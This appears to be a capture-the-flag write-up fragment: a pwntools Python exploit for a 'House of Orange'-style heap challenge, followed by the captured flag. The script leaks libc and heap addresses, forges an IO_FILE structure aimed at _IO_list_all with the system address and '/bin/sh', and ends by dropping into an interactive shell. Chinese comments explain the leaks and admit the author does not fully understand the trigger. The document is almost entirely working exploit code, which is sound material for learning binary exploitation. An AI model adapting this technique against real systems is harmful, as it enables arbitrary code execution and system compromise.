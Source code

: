 ```python

# leak addr
build_house(0x400, b"a" * 8)
msg, _ = see_house()
leak_libc_addr = msg[0x18: 0x18+6]
leak_libc_addr = u64(leak_libc_addr.ljust(8, b"\x00"))

LOG_ADDR("leak_libc_addr", leak_libc_addr) #此处泄露的是类似unsorted bin attack中残留的main_arena地址
libc_base_addr = leak_libc_addr - main_arena_offset - 1640
LOG_ADDR("libc_base_addr", libc_base_addr)
io_list_all_addr = libc_base_addr + 3953952

upgrade_house(0x10, "a" * 0x10)
msg, _ = see_house()
heap_addr = msg[0x20:0x26]
heap_addr = u64(heap_addr.ljust(8, b"\x00"))
LOG_ADDR("heap_addr", heap_addr) #这里泄露的是切割后剩下部分的残留堆地址，看wp或者ctf wiki里面的截图会比较清楚

payload = flat(p64(0) * 3 + p64(libc_base_addr + 283536), #libc_base_addr + 283536是system地址
                0x400 * "\x00",
                "/bin/sh\x00", 
                0x61,
                0, 
                io_list_all_addr-0x10,
                0, 
                0x1,  # _IO_write_ptr
                0xa8 * b"\x00",
                heap_addr+0x10
                ) #这块肯定是根据IO_FILE结构体构造的，就是怎么触发的我有点看不懂
upgrade_house(0x600, payload)
sh.sendlineafter("Your choice : ", "1")
sh.interactive()
```

## Flag
> flag{4b05cb90-1228-476c-9c49-37652a5bb232}
